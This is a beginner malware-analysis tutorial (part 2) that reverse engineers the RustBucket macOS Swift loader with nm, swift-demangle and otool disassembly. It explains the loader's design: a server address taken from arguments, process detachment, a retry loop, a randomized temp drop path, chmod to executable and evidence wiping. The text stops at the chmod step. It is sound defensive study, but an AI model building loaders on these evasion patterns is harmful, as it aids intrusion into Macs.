# macOS malware analysis for beginners: inside the control flow and execution behavior of RustBucket (part 2)



Part 2: Tracing Swift control flow and execution on Apple Silicon using command-line tools and Ghidra.



In Part 1, we established the static foundation of this Mach-O binary. We parsed Universal headers, inspected load commands, extracted the ARM64 slice (`pd_arm64`), and calculated the program entry point offset (`0x1000026A4`).

Static structure shows how a file is packaged, but it does not reveal what happens once it executes. In this second part, we examine the runtime execution flow. We demangle Swift symbols from the terminal, trace ARM64 assembly instructions to uncover the loader's behavior, confirm our findings with Ghidra's decompiler, and build detection rules for defenders.

---

## The Swift reversing hurdle: demystifying mangled symbols

In Part 1, dynamic dependency inspection with `otool -L` showed that `pd_arm64` links against Apple's Swift runtime (`libswiftCore.dylib`).

When analyzing software compiled from C, function names remain readable in the symbol table, such as `_main` or `_connect`. The Swift compiler works differently. It encodes namespace, type, and parameter information into dense ASCII strings. These strings start with `$s` or `_$s`, producing tokens that look unreadable at first glance.

You do not need to launch a heavy disassembler to make sense of them. Two utilities included with macOS can parse and decode the symbol table directly:

- `nm` reads names and addresses from the Mach-O symbol table.
- `swift-demangle` reconstructs readable function signatures from the compiler's mangled strings.

### Querying the symbol table with nm

We start by running `nm` with two specific flags:

- `-g` shows only external, global symbols.
- `-U` filters out undefined symbols, hiding dynamic imports so we only see symbols defined within the binary itself.

```bash
nm -gU pd_arm64 | head -n 30
```

Terminal output:

```text
0000000100000000 T __mh_execute_header
00000001000026a4 T _main
```



This brief output gives us two facts:

1. **The entry point calculated in Part 1 is confirmed.** In Part 1, adding the `entryoff` value (`9892`, or `0x26A4`) from the `LC_MAIN` load command to the base address of the `__TEXT` segment (`0x100000000`) pointed to `0x1000026A4`. The symbol table confirms that `_main` resides at that exact address.
2. **Internal function names are stripped.** The author stripped local symbols prior to compilation. Only the mandatory Mach header symbol (`__mh_execute_header`) and the program entry point (`_main`) remain in the global list.

### Extracting and demangling imported symbols

Because local symbols were removed, we check the imported dynamic symbols using the `-u` flag. These represent the framework methods that the binary requests from macOS at runtime.

Passing these raw tokens to `xcrun swift-demangle` converts the compiler strings into readable method signatures:

```bash
nm -u pd_arm64 | xcrun swift-demangle | head -n 35
```

Terminal output:

```text
Foundation.URLRequest.httpMethod.setter : Swift.String?
Foundation.URLRequest._bridgeToObjectiveC() -> __C.NSURLRequest
Foundation.URLRequest.init(url: Foundation.URL, cachePolicy: __C.NSURLRequestCachePolicy, timeoutInterval: Swift.Double) -> Foundation.URLRequest
Foundation.URLRequest.httpBody.setter : Foundation.Data?
Foundation.URLRequest.setValue(_: Swift.String?, forHTTPHeaderField: Swift.String) -> ()
type metadata accessor for Foundation.URLRequest
Foundation._convertNSErrorToError(__C.NSError?) -> Swift.Error
Foundation.URL.init(fileURLWithPath: __shared Swift.String) -> Foundation.URL
Foundation.URL.appendingPathComponent(Swift.String) -> Foundation.URL
static Foundation.URL._unconditionallyBridgeFromObjectiveC(__C.NSURL?) -> Foundation.URL
Foundation.URL.path.getter : Swift.String
Foundation.URL.init(string: __shared Swift.String) -> Foundation.URL?
type metadata accessor for Foundation.URL
nominal type descriptor for Foundation.URL
static Foundation.Data._unconditionallyBridgeFromObjectiveC(__C.NSData?) -> Foundation.Data
Foundation.Data.write(to: Foundation.URL, options: __C.NSDataWritingOptions) throws -> ()
Foundation.UUID.uuidString.getter : Swift.String
Foundation.UUID.init() -> Foundation.UUID
type metadata accessor for Foundation.UUID
Darwin.S_IRWXG.getter : Swift.UInt16
Darwin.S_IRWXU.getter : Swift.UInt16
(extension in Foundation):Swift.String._bridgeToObjectiveC() -> __C.NSString
static (extension in Foundation):Swift.String.Encoding.utf8.getter : (extension in Foundation):Swift.String.Encoding
type metadata accessor for Foundation.String.Encoding
Swift.String.utf8CString.getter : Swift.ContiguousArray<Swift.Int8>
Swift.String.append(Swift.String) -> ()
type metadata for Swift.String
protocol conformance descriptor for Swift.String : Swift.StringProtocol in Swift
(extension in Foundation):Swift.Array._bridgeToObjectiveC() -> __C.NSArray
static Swift.Array._allocateBufferUninitialized(minimumCapacity: Swift.Int) -> Swift._ArrayBuffer<A>
(extension in Dispatch):__C.OS_dispatch_semaphore.wait() -> ()
(extension in Dispatch):__C.OS_dispatch_semaphore.signal() -> Swift.Int
(extension in Foundation):Swift.StringProtocol.data(using: (extension in Foundation):Swift.String.Encoding, allowLossyConversion: Swift.Bool) -> Foundation.Data?
static Swift.CommandLine.arguments.getter : [Swift.String]
Swift._StringGuts.grow(Swift.Int) -> ()
```



Even without opening a disassembler, this list outlines what the binary is built to do:

- **Command-line arguments:** The call to `Swift.CommandLine.arguments.getter` shows the program checks parameters passed at runtime.
- **Network requests:** References to `Foundation.URLRequest`, `httpMethod`, `httpBody`, and `setValue(_:forHTTPHeaderField:)` point to custom HTTP requests with configured headers and payloads.
- **Host identification:** `Foundation.UUID.init()` and `uuidString.getter` generate unique identifiers, common when registering an infected host with a management server.
- **Thread synchronization:** Calls to `OS_dispatch_semaphore.wait()` and `signal()` show that the program blocks the main execution thread to wait for background tasks to finish.
- **File writes and execution permissions:** `Foundation.Data.write(to:options:)` writes bytes to disk. The Darwin constants `S_IRWXU` (user read, write, execute) and `S_IRWXG` (group read, write, execute) indicate that the file permissions are changed to make the dropped file executable.

### Why hardcoded command-and-control addresses are missing

Searching for domain names or URLs with `strings` yields almost nothing:

```bash
strings pd_arm64 | grep -E "(\-|\/|http|https)" | head -n 30
```

Terminal output:

```text
mozilla/4.0 (compatible; msie 8.0; windows nt 5.1; trident/4.0)
```



The binary contains an outdated Internet Explorer User-Agent string, matching the artifact we found in `__TEXT.__cstring` during Part 1, but no server domains or IP addresses.

This absence connects back to our symbol list:

```text
static Swift.CommandLine.arguments.getter : [Swift.String]
```

The author designed this loader to be stateless. Instead of embedding a static domain that security vendors can easily blacklist, the binary expects the target address as a command-line parameter from the first-stage dropper. If you run the binary by itself in a test sandbox without arguments, it exits immediately without making network calls.

### Dissecting the main entry point in ARM64 assembly

Using `otool -tv`, we inspect the instructions starting at the entry address `0x1000026a4`:

```bash
otool -tv pd_arm64 | head -n 40
```

Terminal output:

```text
pd_arm64:
(__TEXT,__text) section
_main:
00000001000026a4    stp    x22, x21, [sp, #-0x30]!
00000001000026a8    stp    x20, x19, [sp, #0x10]
00000001000026ac    stp    x29, x30, [sp, #0x20]
00000001000026b0    add    x29, sp, #0x20
00000001000026b4    bl     0x100003894 ; symbol stub for: _setpgrp
00000001000026b8    bl     0x100003768 ; symbol stub for: _$ss11CommandLineO9argumentsSaySSGvgZ
00000001000026bc    ldr    x8, [x0, #0x10]
00000001000026c0    cmp    x8, #0x2
00000001000026c4    b.lo   0x10000272c
00000001000026c8    mov    x19, x0
00000001000026cc    ldp    x20, x21, [x0, #0x30]
00000001000026d0    mov    x0, x21
00000001000026d4    bl     0x1000038d0 ; symbol stub for: _swift_bridgeObjectRetain
00000001000026d8    mov    x0, x20
00000001000026dc    mov    x1, x21
00000001000026e0    bl     _$s2dd11downAndExecySbSSF
00000001000026e4    mov    x20, x0
00000001000026e8    mov    x0, x19
00000001000026ec    bl     0x1000038c4 ; symbol stub for: _swift_bridgeObjectRelease
00000001000026f0    mov    x0, x21
00000001000026f4    bl     0x1000038c4 ; symbol stub for: _swift_bridgeObjectRelease
00000001000026f8    tbnz   w20, #0x0, 0x100002718
00000001000026fc    mov    w0, #0x5
0000000100002700    bl     0x1000038a0 ; symbol stub for: _sleep
0000000100002704    bl     0x100003768 ; symbol stub for: _$ss11CommandLineO9argumentsSaySSGvgZ
0000000100002708    ldr    x8, [x0, #0x10]
000000010000270c    cmp    x8, #0x2
0000000100002710    b.hs   0x1000026c8
0000000100002714    brk    #0x1
0000000100002718    mov    w0, #0x0
000000010000271c    ldp    x29, x30, [sp, #0x20]
0000000100002720    ldp    x20, x19, [sp, #0x10]
0000000100002724    ldp    x22, x21, [sp], #0x30
0000000100002728    ret
000000010000272c    brk    #0x1
_$s2dd8wipeFileySbSSF:
0000000100002730    sub    sp, sp, #0x70
```



A practical detail when running `swift-demangle` in modern versions of macOS: Zsh treats unquoted dollar signs as shell variables. Passing `xcrun swift-demangle _$s2dd11downAndExecySbSSF` strips the variable and passes only the leading `_` character. Always enclose mangled symbols in single quotes:

```bash
xcrun swift-demangle '_$s2dd11downAndExecySbSSF'
xcrun swift-demangle '_$s2dd8wipeFileySbSSF'
```

Terminal output:

```text
_$s2dd11downAndExecySbSSF ---> dd.downAndExec(Swift.String) -> Swift.Bool
_$s2dd8wipeFileySbSSF    ---> dd.wipeFile(Swift.String) -> Swift.Bool
```



Walking through the assembly reveals each operational step:

1. **Detaching the process (`_setpgrp`):**
   At `0x1000026b4`, the binary calls `_setpgrp`. This sets a new process group ID, detaching the malware from the controlling terminal so closing the shell will not terminate the process.
2. **Checking argument count:**
   At `0x1000026b8`, it calls `CommandLine.arguments`. At `0x1000026bc`, `ldr x8, [x0, #0x10]` reads the length of the argument array into register `x8`. It compares the count with 2 (`cmp x8, #0x2`). If fewer than two arguments are present (the binary name counts as one, so this requires at least one user argument), `b.lo 0x10000272c` branches to a `brk #0x1` instruction, forcing an immediate exit.
3. **Calling the main routine:**
   At `0x1000026cc`, `ldp x20, x21, [x0, #0x30]` reads the second argument (`argv[1]`). It passes this string to `dd.downAndExec(Swift.String)` at `0x1000026e0`. The function returns a boolean in register `x0`.
4. **Handling success or retry:**
   Instruction `tbnz w20, #0x0, 0x100002718` checks bit 0 of the return value. If the function returns true, execution branches to `0x100002718`, sets return code 0 (`mov w0, #0x0`), restores saved registers, and exits cleanly. If the function returns false, it moves `5` into `w0` and calls `_sleep` at `0x100002700`. After pausing for 5 seconds, it branches back to `0x1000026c8` to retry the download indefinitely.



### Mapping the internal module hierarchy

Using `nm` on the text section and filtering for the module prefix `s2dd`, we can recover all internal functions written by the malware author:

```bash
nm -s __TEXT __text pd_arm64 | grep 's2dd' | xcrun swift-demangle
```

Terminal output:

```text
0000000100002908 t dd.downAndExec(Swift.String) -> Swift.Bool
0000000100002d40 t closure #1 @Sendable (Foundation.Data?, __C.NSURLResponse?, Swift.Error?) -> () in dd.downAndExec(Swift.String) -> Swift.Bool
00000001000032f4 t partial apply forwarder for closure #1 @Sendable (Foundation.Data?, __C.NSURLResponse?, Swift.Error?) -> () in dd.downAndExec(Swift.String) -> Swift.Bool
0000000100002730 t dd.wipeFile(Swift.String) -> Swift.Bool
```



These four entries summarize the developer's architecture:

| Virtual address | Function signature | Role |
| --- | --- | --- |
| `0x1000026a4` | `_main` | Validates arguments, calls `downAndExec`, sleeps 5 seconds on failure. |
| `0x100002908` | `dd.downAndExec(String) -> Bool` | Prepares the HTTP request, initializes a semaphore, and starts the download. |
| `0x100002d40` | `closure #1 in dd.downAndExec` | The completion handler for `URLSession.dataTask`. Writes the payload to disk, runs `chmod`, executes it, and calls `wipeFile`. |
| `0x1000032f4` | `partial apply forwarder for closure #1` | Swift runtime glue code that binds context variables to the closure. |
| `0x100002730` | `dd.wipeFile(String) -> Bool` | Overwrites and unlinks files to remove evidence from disk. |

---

## Tracing the execution logic in assembly

### Reconstructing the payload drop closure

Address `0x100002d40` contains the completion handler passed to Apple's network session.

```bash
otool -tv pd_arm64 | grep -A 45 "0000000100002d40" | head -n 45
```

Terminal output:

```text
0000000100002d40    stp    x28, x27, [sp, #-0x60]!
0000000100002d44    stp    x26, x25, [sp, #0x10]
0000000100002d48    stp    x24, x23, [sp, #0x20]
0000000100002d4c    stp    x22, x21, [sp, #0x30]
0000000100002d50    stp    x20, x19, [sp, #0x40]
0000000100002d54    stp    x29, x30, [sp, #0x50]
0000000100002d58    add    x29, sp, #0x50
0000000100002d5c    sub    sp, sp, #0x70
...
0000000100002d7c    bl     0x1000036cc ; symbol stub for: _$s10Foundation4UUIDVMa
...
0000000100002da4    bl     0x100003690 ; symbol stub for: _$s10Foundation3URLVMa
...
0000000100002de4    lsr    x8, x22, #60
0000000100002de8    cmp    x8, #0xf
0000000100002dec    b.lo   0x100002ec0
0000000100002df0    cbz    x23, 0x100003298
```



The routine sets up a standard ARM64 stack frame, saving registers `x19` through `x28`, the frame pointer `x29`, and the link register `x30`.

It resolves type metadata for `Foundation.UUID` and `Foundation.URL`. At `0x100002df0`, instruction `cbz x23, 0x100003298` checks register `x23`, which holds the received response data. If the pointer or length is zero (indicating an empty server response or an error), it branches to clean up the stack and exit, allowing the main loop to trigger its 5-second sleep and retry.

### Error handling and string interpolation

When the network request fails, the binary prints an error message to the console before returning:

```bash
otool -tv pd_arm64 | grep -A 45 "0000000100002df0" | head -n 45
```

Terminal output:

```text
0000000100002df0    cbz    x23, 0x100003298
...
0000000100002e2c    bl     0x100003774 ; symbol stub for: _$ss11_StringGutsV4growyySiF
0000000100002e38    adr    x8, #0xfa8  ; literal pool for: "HTTP Request Failed "
...
0000000100002e54    bl     0x100003720 ; symbol stub for: _$sSS6appendyySSF
...
0000000100002e70    ldr    x3, #0x11b0 ; literal pool symbol address: _$ss26DefaultStringInterpolationVN
...
0000000100002e84    bl     0x100003780 ; symbol stub for: _$ss15_print_unlockedyyx_q_zts16TextOutputStreamR_r0_lF
```



At `0x100002e38`, instruction `adr x8, #0xfa8` loads the literal `"HTTP Request Failed "`, which we extracted from `__TEXT.__cstring` in Part 1. The binary initializes Swift's string formatting buffer `DefaultStringInterpolation`, appends the error description, and outputs the result using `_print_unlocked`.

### Generating the temporary drop path

When data arrives successfully, execution continues to address `0x100002ec0`:

```bash
otool -tv pd_arm64 | grep -A 45 "0000000100002ea0" | head -n 45
```

Terminal output:

```text
0000000100002eb0    bl     0x10000378c ; symbol stub for: _$ss5print_9separator10terminatoryypd_S2StF
0000000100002ebc    b      0x100003298
...
0000000100002ed4    ldr    x1, #0x536c ; Objc selector ref: defaultManager
0000000100002ed8    bl     0x100003858 ; Objc message: -[x0 defaultManager]
...
0000000100002eec    ldr    x1, #0x538c ; Objc selector ref: temporaryDirectory
0000000100002ef0    bl     0x100003858 ; Objc message: -[x0 temporaryDirectory]
...
0000000100002f04    bl     0x10000366c ; symbol stub for: Foundation.URL._unconditionallyBridgeFromObjectiveC
0000000100002f14    bl     0x1000036c0 ; symbol stub for: Foundation.UUID.init()
0000000100002f18    bl     0x1000036b4 ; symbol stub for: Foundation.UUID.uuidString.getter
...
0000000100002f44    bl     0x100003660 ; symbol stub for: Foundation.URL.appendingPathComponent(_:)
```



The malware retrieves the system temporary directory using Cocoa's `[NSFileManager defaultManager]` and `[NSFileManager temporaryDirectory]`. It bridges the result to a Swift `URL`, generates a random UUID string with `UUID().uuidString`, and appends that string to the temporary directory path.

This creates a randomized target path on disk:

```text
/var/folders/xx/xxxxxxx/T/4B3F1B2C-8A9E-4C7B-9E3F-2A8E9B1C3D4E
```

Dropping the payload under a per-user temporary folder with a randomized name avoids static file path signatures and eliminates write collisions.

### Writing the payload and setting execution permissions

Instructions from `0x100002f50` through `0x100003004` save the file and modify its permission bits:

```bash
otool -tv pd_arm64 | grep -A 50 "0000000100002f50" | head -n 50
```

Terminal output:

```text
0000000100002f70    bl     0x100003678 ; symbol stub for: _$s10Foundation3URLV4pathSSvg
...
0000000100002fa8    bl     0x1000036a8 ; symbol stub for: _$s10Foundation4DataV5write2to7optionsyAA3URLV_So20NSDataWritingOptionsVtKF
...
0000000100002fdc    bl     0x1000036e4 ; symbol stub for: _$s6Darwin7S_IRWXUs6UInt16Vvg
0000000100002fe0    mov    x19, x0
0000000100002fe4    bl     0x1000036d8 ; symbol stub for: _$s6Darwin7S_IRWXGs6UInt16Vvg
0000000100002fe8    orr    w21, w0, w19
0000000100002ff4    bl     0x100003714 ; symbol stub for: _$sSS11utf8CStrings15ContiguousArrayVys4Int8VGvg
...
0000000100003004    bl     0x1000037bc ; symbol stub for: _chmod
```

